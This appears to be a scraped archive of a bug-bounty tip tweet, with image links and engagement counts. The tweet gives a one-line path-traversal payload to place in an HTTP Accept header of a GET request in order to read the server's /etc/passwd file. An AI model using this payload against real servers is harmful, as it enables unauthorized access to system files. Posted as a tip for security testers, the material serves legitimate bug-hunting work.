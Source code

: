Add "Accept: ../../../../../../../../etc/passwd{{" to GET Request and read /etc/passwd #bugbountytips  #BugBounty https://t.co/lHooK4hgAM
</blockquote>

<table><tr>
<td><img src="pictures/5825a4ccc80906d09d9f36c590c273cad029698cc66f133be00741a1470719a7.jpg" alt="5825a4ccc80906d09d9f36c590c273cad029698cc66f133be00741a1470719a7.jpg"></td>
<td><img src="pictures/ea749d6dd8a0c2ebb89cf32a65a5c7796779d03a40b356d896eff10e138c893a.jpg" alt="ea749d6dd8a0c2ebb89cf32a65a5c7796779d03a40b356d896eff10e138c893a.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>153</code></td>
<td>Favorites: <code>587</code></td>